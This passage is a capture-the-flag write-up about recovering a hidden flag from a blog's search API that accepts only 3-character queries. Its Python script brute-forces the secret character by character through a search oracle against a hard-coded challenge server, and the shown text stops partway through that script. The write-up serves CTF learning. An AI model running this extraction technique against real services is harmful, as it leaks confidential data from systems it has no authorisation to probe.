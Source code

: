 - There are several flags found in the zip file provided in index.js: `L3AK{Bad_bl0g?}` and `L3AK{t3mp_flag!!}`, both flags are clearly incorrect😁.
- There's another clue: the search endpoint only accepts 3 characters, and the temp flag appearing in ID 3 is censored with asterisks (*).
- For my first attempt, I used the search endpoint with query `3ak` which returned 2 posts: ID 3 using `L3AK{t3mp_flag!!}` and ID 4 using the `L3AK{Bad_bl0g?}` flag.
- And then i tried searching with the query `K{t` to check if ID 3 would appear, since ID 3 should appear when it calls the `const FLAG = 'L3AK{t3mp_flag!!}'`. It didn't appear, meaning the flag had been changed on the server. This meant we needed to search for each character one by one, but, the response we get must be a post that comes from id 3, because the possibility of the flag we are looking for comes from that post
- Since manually searching character by character would be impractical, especially with the 3-character limit, we need to use a exploitation script like this:
```py
import requests # type: ignore
import string
import sys

# Configuration
URL = "http://34.134.162.213:17000/api/search"
# The substring you discovered!
known_part = "l4g"
# Character set to test for the flag. You can add more if needed.   
CHARSET = string.ascii_letters + string.digits + "{}_-!?"

def check_substring(s: str) -> bool:
    """
    Sends a 3-char substring to the server and returns True if it's a match
    and at least one matching post has id == 3.
    """
    if len(s) != 3:
        return False
    try:
        response = requests.post(URL, json={'query': s}, timeout=5)
        if response.status_code == 200:
            data = response.json()
            results = data.get('results', [])
            # Cek apakah ada post dengan id == 3
            for post in results:
                if post.get('id') == 3:
                    return True
    except requests.RequestException:
        return False
    return False

print(f"Starting brute-force with known part: {known_part}")
print("-" * 30)

# --- Part 1: Extend to the right (discovering the end of the flag) ---
# This piece will hold the part of the flag starting from your discovery
# e.g., K{L1nux_w0rld!}
right_side = known_part
while not right_side.endswith('}'):
    found_next_char = False
    # Take the last 2 characters of our known string
    prefix = right_side[-2:]
    for char in CHARSET:
        query = prefix + char
        # Print progress to show it's working
        sys.stdout.write(f"\rTesting (right): {query}")
        sys.stdout.flush()
        if check_substring(query):
            right_side += char
            print(f"\rFound part: {right_side}   ")
```